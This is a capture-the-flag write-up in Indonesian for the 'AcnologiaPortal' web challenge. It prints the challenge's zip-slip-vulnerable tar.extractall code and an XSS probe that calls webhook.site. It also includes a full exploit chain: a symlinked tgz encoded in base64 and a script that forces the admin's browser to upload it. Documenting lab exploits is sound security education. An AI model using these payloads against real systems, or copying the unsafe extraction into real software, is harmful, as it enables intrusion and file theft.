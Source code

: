 # AcnologiaPortal
#web #medium #xss #zipslip 

## Inisiasi
```sh
./build-docker.sh
```


## Eksploitasi
![](attachments/Pasted%20image%2020220610142524.png)

Testing XSS pada fitur report.
```html
<img src="https://webhook.site/unique-id">
```

Vulnerability zipslip pada `util.py`, `tar.extractall()` memperbolehkan ekstraksi absolute dan relative path.
```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

Fungsi `extract_firmware()` dapat diakses melalui `/api/firmware/upload` seperti pada yang tertampil pada `routes.py`.
```python
@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403

@web.route('/review', methods=['GET'])
@login_required
@is_admin
def review_report():
    Reports = Report.query.all()
    return render_template('review.html', reports=Reports)

```

Buat sebuah symbolic link dengan cara berikut
```sh
sudo mkdir -p /app/application/static/js/
sudo echo "flag" > /flag.txt

# membuat symbolic link ke /flag.txt di /app/application/static/js/flag.txt
sudo ln -s /flag.txt /app/application/static/js/flag.txt
ls -l /app/application/static/js/flag.txt
```

Buat sebuah tgz yang mengarah ke symbolic link `/app/application/static/js/flag.txt`
```sh
tar -czPf exploit.tgz /app/application/static/js/flag.txt

# cek symbolic link dan isi archive pada pada exploit.tgz
vim exploit.tgz
```

Copy tgz tersebut dalam base64.
```sh
base64 -w 0 exploit.tgz
```

Buat admin upload file zip tersebut dengan menginputkan script ini ke dalam kolom report dengan menggunakan XSS.
```html
<script>
const byteCharacters = atob("H4sIAAAAAAAAA+3PUQqDMAzG8R6lJ1hip+15irChyCpaYcdf8HGge9jY0/8H4Qsk0FTyPIvVNPS5DuUha7XsZVzlNuX7pT6r+5aalNKe5j33vmlDp7HRGG0vqF7V+fC7E45t9uHFe7eUcvrMpzkAAAAAAAAAAAAAAAAAAH/0AsHNucgAKAAA");
const byteNumbers = new Array(byteCharacters.length);
for (let i = 0; i < byteCharacters.length; i++) {
	byteNumbers[i] = byteCharacters.charCodeAt(i);
}
const byteArray = new Uint8Array(byteNumbers);
const blob = new Blob([byteArray], {type: 'application/gzip'});
var formData = new FormData();
formData.append("file", blob, "exploit.tgz");

var xhr = new XMLHttpRequest();
xhr.open("POST", "http://localhost:1337/api/firmware/upload");
xhr.withCredentials = true;
xhr.send(formData);
</script>
```


## Sumber
- https://github.com/konradzb/public_writeups/blob/main/Cyber%20Apocalypse%20CTF%202022/WEB/Acnologia%20Portal/Acnologia_Portal.md
- https://jamesasec.io/ctf/cyber-apocalypse-2022/acnologia-portal.html
- https://www.youtube.com/watch?v=1x_ZNI7E61I&t=11602s
- https://snyk.io/research/zip-slip-vulnerability
- https://www.dubget.com/file-upload-via-xss.html
